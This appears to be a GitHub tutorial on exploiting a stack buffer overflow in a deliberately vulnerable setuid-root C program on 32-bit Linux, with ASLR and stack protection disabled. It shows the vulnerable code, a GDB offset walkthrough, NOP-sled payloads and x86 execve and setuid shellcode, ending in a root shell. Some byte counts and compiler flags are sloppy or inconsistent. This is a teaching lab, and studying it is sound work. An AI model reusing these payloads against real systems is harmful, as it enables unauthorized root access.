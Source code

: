 # Stack based buffer-overflow on Cent OS( any x84 linux OS )

Stack grows from high address to low address (while buffer grows from low - high address).

Vuln.c is a c program that has a function strcopy (buf, name) that will allow more read of bytes than the buffer size (100) from the second argument.

```python
  void func(char *name){
    char buf[100];
    strcpy(buf, name); // The following statement has a buffer overflow problem
    printf("Welcome %s\n", buf);
  }
```
The function strcpy() does not check whether the boundary of buf[] has reached. It simply copies the contents from name to buffer[] and only stops when seeing the end-of-string character ‘\0’. If the string pointed by buf has more than 100 chars, contents in the memory above buf [] will be overwritten by the characters at the end of name.  So, this leads to stack-based buffer overflow and we can overwrite anything that can come after that buffer. Thus, we know the vulnerability and we can prepare an exploit.

<b>Address space layout randomization (ASLR)</b> causes the addresses of the stack to be randomized. This causes a lot of difficulty in predicting addresses while exploitation. As ASLR is disabled we are sure that no matter how many times the binary is run, the address of buf will not change. Thus, ASLR is turned off on root first by the command:
```python
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

•	Vuln.c is compiled in root using: 
```python
gcc vuln.c -o vuln -fno-stackprotector -z execstack
```
-g tells GCC to add extra information for GDB

-fno-stackprotector is a flag to turn off stack protection mechanism

-z execstack makes the vuln file stack executable

•	I set permission of the vuln file as an executable binary that is owned by root, has the suid bit set to be user executable, and is vulnerable to buffer overflow. Mainly, it is set like this for debugging by the other user in gdb( GNU debugger).

# Procedures in GDB:
DO THESE PROCEDURES BELOW BY ANY OTHER USER THAN ROOT TO GAIN ROOT SHELL...

<b>a. Find out where the start of the buffer is in memory: </b>

```python
(gdb) print $ebp
$1 = (void *) 0xbfffeb38
(gdb) print $ebp - 0x6c
$2 = (void *) 0xbfffeacc
(gdb) quit
A debugging session is active.
```

 buf lies at ebp - 0x6c.
 0x6c is 108(100 + framept(4-current+4-prev) in decimal, Disassemble main method and it will show dump of registers. 
 Look for the part where is function call: ebp is the base of stack pointer which I will use instead of $esp. However, EBP is a pointer to the top of the stack when the func() is first called. So, I thought this as offset bytes before.

print $ebp - 0x6c will give start of the buffer.

<b>b. Fill the register with appropriate size NOP (X90)</b>

We fill the first 40 bytes with NOP instructions, constructing a NOP Sled. It makes the processor jump to the address of buf (taken from gdb’s output) minus x bytes to get somewhere in the middle of the NOP sled.

Start of buffer: 0xbfffeacc - some bytes(172- ac in hex)... 0xbfffea20(roughly I used this arbitrary bytes to get somewhere in the middle of the NOP sled)  

[ Intel CPU’ we have endian structure: \x20\xea\xff\xbf ]

The reason for inserting a NOP sled before the shellcode is that now we can transfer execution flow to anyplace within these 40 bytes. The processor will keep on executing the NOP instructions until it finds the shellcode. We need not know the exact address of the shellcode. This takes care of the problem of not knowing the address of buf exactly and increases chances of getting into our shell code.

<b>c. We can fill the rest 47 (112 - 25 - 40) bytes with random data, say the ‘A’ character. </b>

This is a part to play around & 47 As might be overestimate...And return address starts after the first 112 bytes of buf. 108 +4( roughly because I ran the debugger with 104 As)
 
 Final payload structure: [40 bytes of NOP - sled] [25 bytes of shellcode] [47 times ‘A’ will occupy 49 bytes] [4 bytes pointing in the middle of the NOP - sled: 0xbfffea20]

# Exploiting test:
25 byte long shell code (in Assembly) which tells VM to launch a shell: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

```python
./vuln $(python -c 'print "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*37 + "\x20\xea\xff\xbf"')
```
( 37 As was the right amount for test run! )... Not 47. (But, try arbitrary As here)

Note that above part have code execution but not root shell access. It happens due to the protection in /bin/bash. We remove the restriction by:
setuid(0) + setgid(0) + execve("/bin/sh", ["/bin/sh", NULL])

Thus, we have 37 byte shell code to gain root access:
\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80

```python
./vuln $(python -c 'print "\x90"*40 + "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "A"*27 + "\x20\xea\xff\xbf"')
Welcome ????????????????????????????????????????jX1?̀j.XS̀1?j
                                                           XRh//shh/bin??RS??̀AAAAAAAAAAAAAAAAAAAAAAAAAAA
sh-3.2# whoami
root
```
